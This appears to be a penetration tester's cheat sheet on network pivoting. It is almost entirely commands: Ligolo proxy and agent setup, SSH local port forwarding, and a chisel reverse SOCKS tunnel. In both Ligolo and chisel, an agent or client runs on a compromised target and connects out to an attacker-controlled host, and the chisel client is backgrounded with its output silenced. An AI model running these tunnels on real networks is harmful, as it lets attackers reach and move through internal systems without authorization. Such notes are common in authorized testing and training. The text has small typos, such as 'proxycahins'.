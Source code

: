 ### Ligolo
###### This is great for tunneling to another internal network.
```
#Create network interface for ligolo
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up

#Start proxy on your machine
./lin-proxy -selfcert -laddr 0.0.0.0:7000

#Start agent on target machine
./lin-agent -connect <attacker IP here>:7000 -ignore-cert
./win-agent -connect <attacker IP here>:7000 -ignore-cert

#Add network routes on your machine
sudo ip route add <ip-add>/24 dev ligolo

#Start ligolo session and start routing traffic
session
start
```

### Port Forwarding

###### This is great for forwarding just one local port on the target to your machine.

#### Local
```
#Forwards a port from a remote machine to your kali machine.
#Run this on the kali machine.
ssh -L <kali_port>:localhost:<target_port> <target_username>@<target_ip>

#Check if the port is listening (run on both target and host.)
ss -ntplu
```

#### Dynamic Remote

```
#On your machine
chisel server --port 80 --reverse

#On the target machine
chisel client <kali_ip>:80 R:socks > /dev/null 2>&1 &

#Add to /etc/proxycahins4.conf file
socks5	127.0.0.1 1080

#Sending traffic (can also configure foxy proxy too.)
proxycahins <command> <target_ip>:<target_port>
```


